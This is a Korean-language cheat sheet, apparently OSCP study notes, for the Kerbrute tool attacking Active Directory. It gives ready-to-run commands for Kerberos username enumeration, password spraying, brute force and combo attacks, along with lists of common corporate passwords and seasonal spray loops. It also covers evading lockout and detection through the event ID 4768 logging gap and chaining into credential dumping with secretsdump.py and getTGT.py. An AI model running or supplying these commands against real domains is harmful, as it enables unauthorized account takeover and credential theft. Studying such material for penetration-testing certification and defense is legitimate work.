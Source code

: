 # Kerbrute

## 설치

```bash
# 최신 버전 확인 후 다운로드
wget https://github.com/ropnop/kerbrute/releases/download/v1.0.3/kerbrute_linux_amd64 -O kerbrute
chmod +x kerbrute
sudo mv kerbrute /usr/local/bin/
```

## 사용법

### 1. UserEnum - 계정 존재 여부 확인

```bash
# 1) 사용자 목록으로 확인 (가장 많이 쓰는 형식)
# uerenum -> 사용자 존재여부를 확인할 때 사용하는 고정 타입 옵션
./kerbrute userenum --dc 10.10.206.91 -d spookysec.local -o found_users.txt /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt

# 2) 빠른 확인 (내장 워드리스트)
./kerbrute userenum --dc 10.10.10.175 -d megacorp.local /opt/useful/SecLists/Usernames/Names/names.txt

# 3) 스레드 조정 - 빠른 스캔 (더 많은 요청)
./kerbrute userenum --dc 10.10.10.175 -d megacorp.local -t 80 users.txt

# 4) 스레드 줄이기 - 스텔스 스캔 (덜 눈에 띔)
./kerbrute userenum --dc 10.10.10.175 -d megacorp.local -t 1 --delay 500 users.txt
```

❗ **결과 해석**: `[+]` = 계정 존재, `[-]` = 없음, `[!]` = Pre-Auth 필요 없음(ASREProast 가능)

### 2. PasswordSpray - 패스워드 스프레이 공격

```bash
# 1) 기본 스프레이 (가장 많이 쓰는 형식)
./kerbrute passwordspray --dc 10.10.10.175 -d megacorp.local found_users.txt 'Company2023!'

# 2) 계정 잠금 방지 (안전모드)
./kerbrute passwordspray --dc 10.10.10.175 -d megacorp.local --safe -t 1 found_users.txt 'Spring2023!'

# 3) 흔한 기업 비밀번호 예시
./kerbrute passwordspray --dc 10.10.10.175 -d megacorp.local found_users.txt 'Password123!'
./kerbrute passwordspray --dc 10.10.10.175 -d megacorp.local found_users.txt 'Welcome1'
./kerbrute passwordspray --dc 10.10.10.175 -d megacorp.local found_users.txt 'Autumn2023!'
./kerbrute passwordspray --dc 10.10.10.175 -d megacorp.local found_users.txt 'CompanyName123'

# 4) 성공한 계정 저장 (결과 파일)
./kerbrute passwordspray --dc 10.10.10.175 -d megacorp.local -o valid_creds.txt found_users.txt 'Password123!'
```

❗ **이점**: 일반 로그인(4625)이 아닌 TGT요청(4768)으로 기록 → 계정 잠금 정책 우회 용이

### 3. Bruteforce - 특정 사용자 패스워드 공격

```bash
# 1) 표준 브루트포스 (가장 많이 쓰는 형식) - ⚠️ 계정 잠금 위험!
./kerbrute bruteforce --dc 10.10.10.175 -d megacorp.local /usr/share/wordlists/rockyou.txt administrator

# 2) 안전 모드 (계정 잠금 방지 - 매우 중요)
./kerbrute bruteforce --safe -t 1 --delay 1000 --dc 10.10.10.175 -d megacorp.local common_passwords.txt svc_account

# 3) 소규모 워드리스트로 특정 계정 공략 (추천)
cat << EOF > likely_passwords.txt
Spring2023!
Summer2023!
Company123!
Password123
Welcome123
P@ssw0rd
EOF
./kerbrute bruteforce --dc 10.10.10.175 -d megacorp.local likely_passwords.txt administrator
```

❗ **주의**: 브루트포스는 계정 잠금 정책 트리거 가능성 높음 → 소규모/정확한 리스트 사용

### 4. Combo - 사용자:패스워드 조합 시도

```bash
# 1) 기본 콤보 공격 (가장 많이 쓰는 형식)
./kerbrute combo --dc 10.10.10.175 -d megacorp.local combos.txt

# 2) 결과 저장 (성공한 계정 기록)
./kerbrute combo --dc 10.10.10.175 -d megacorp.local -o found_accounts.txt combos.txt

# 3) 콤보 파일 생성 예시
cat << EOF > combos.txt
administrator:Password123!
administrator:Admin123
svc_backup:Backup2023!
svc_account:Svc123!
helpdesk:Welcome123
john.doe:Password123
jane.smith:Winter2023!
EOF

# 4) 다른 도구로 콤보 파일 생성
awk '{print $1":Password123!"}' users.txt > combos.txt
awk '{print $1":Summer2023!"}' users.txt >> combos.txt
```

### 5. 실전 활용 예시

```bash
# 1) 요청한 예시 명령 - 특정 사용자리스트로 계정 확인 (최신 문법)
./kerbrute userenum --dc 10.10.10.175 --domain spookysec.local userlist.txt

# 2) 획득한 계정으로 인증 및 티켓 저장
./kerbrute -d spookysec.local --dc 10.10.206.91 -t 1 --user svc_backup --password backup2023 --tgt /tmp/svc_backup.ccache

# 3) TGT 저장 후 환경변수 설정
export KRB5CCNAME=/tmp/svc_backup.ccache

# 4) 이후 다른 도구와 연계 (impacket 등)
python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -k -dc-ip 10.10.10.175 spookysec.local/svc_backup@DC01.spookysec.local
```

## 핵심 옵션

| 옵션            | 설명                         | 예시                 |
| --------------- | ---------------------------- | -------------------- |
| `-d, --domain`  | 타겟 도메인 (필수)           | `-d megacorp.local`  |
| `--dc`          | 도메인 컨트롤러 IP           | `--dc 10.10.10.175`  |
| `-o, --output`  | 결과 파일 저장               | `-o found_users.txt` |
| `--safe`        | 계정 잠금 방지 (딜레이 추가) | `--safe`             |
| `-t, --threads` | 동시 요청 수 (기본:10)       | `-t 1` 또는 `-t 50`  |
| `--delay`       | 요청 사이 지연 시간(ms)      | `--delay 1000`       |
| `-v`            | 상세 출력 (디버깅)           | `-v`                 |
| `--debug`       | 매우 상세한 정보 표시        | `--debug`            |

## 완전한 공격 시나리오

### 1. 초기 정찰 - 빠른 계정 발견

```bash
# 1) 초기 빠른 스캔 - 기본 계정
./kerbrute userenum --dc 10.10.10.175 -d megacorp.local -t 50 /usr/share/seclists/Usernames/top-usernames-shortlist.txt

# 2) 이메일 주소로부터 사용자명 추출
cat << EOF > emails.txt
john.doe@megacorp.local
jane.smith@megacorp.local
admin@megacorp.local
support@megacorp.local
EOF
cut -d "@" -f1 emails.txt > users.txt

# 3) 확장 스캔 - 더 많은 계정 찾기
./kerbrute userenum --dc 10.10.10.175 -d megacorp.local -t 30 -o found_users.txt /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt
```

### 2. 전략적 패스워드 공격

```bash
# 1) 서비스 계정만 추출 (권한 높을 가능성)
grep "^svc_\|^service\|^admin" found_users.txt > service_accounts.txt

# 2) 계절+년도 비밀번호 스프레이 (가장 흔한 패턴)
for season in Spring Summer Fall Autumn Winter; do
    for year in 2022 2023; do
        echo "시도: $season$year!"
        ./kerbrute passwordspray --dc 10.10.10.175 -d megacorp.local --safe -t 1 service_accounts.txt "$season$year!"
    done
done

# 3) 회사명 + 숫자 조합 (매우 효과적)
./kerbrute passwordspray --dc 10.10.10.175 -d megacorp.local service_accounts.txt "Megacorp123!"
```

### 3. 획득한 인증으로 추가 공격

```bash
# 1) 성공한 계정 확인
cat valid_creds.txt

# 2) 비밀번호 재사용 공격 (발견된 계정 비밀번호로 다른 계정 시도)
found_password=$(cat valid_creds.txt | grep "SUCCESS" | head -1 | awk '{print $4}')
./kerbrute passwordspray --dc 10.10.10.175 -d megacorp.local found_users.txt "$found_password" -o more_accounts.txt

# 3) Kerberos 티켓 획득 및 활용
user=$(cat valid_creds.txt | grep "SUCCESS" | head -1 | cut -d " " -f 3 | cut -d "@" -f 1)
pass=$(cat valid_creds.txt | grep "SUCCESS" | head -1 | awk '{print $4}')

# TGT 요청해서 추가 공격 (이후 Kerberoasting, AS-REP Roasting 등)
export KRB5CCNAME=/tmp/$user.ccache
getTGT.py -dc-ip 10.10.10.175 megacorp.local/$user:"$pass"
```

## OSCP 시험 주의사항

❗ **중요 팁**:

- 계정 잠금 정책은 보통 5-10회 실패 시 30분 잠김 → `--safe` + `-t 1` + `--delay 1000` 사용
- 비밀번호 패턴: `회사명+123!`, `계절+년도!`, `Welcome1` 시도 (가장 성공률 높음)
- 발견된 계정은 impacket의 GetUserSPNs.py, secretsdump.py로 추가 공격
- 이벤트 ID 4768(TGT 요청)로 로그 남지만 일반 로그인보다 덜 탐지됨
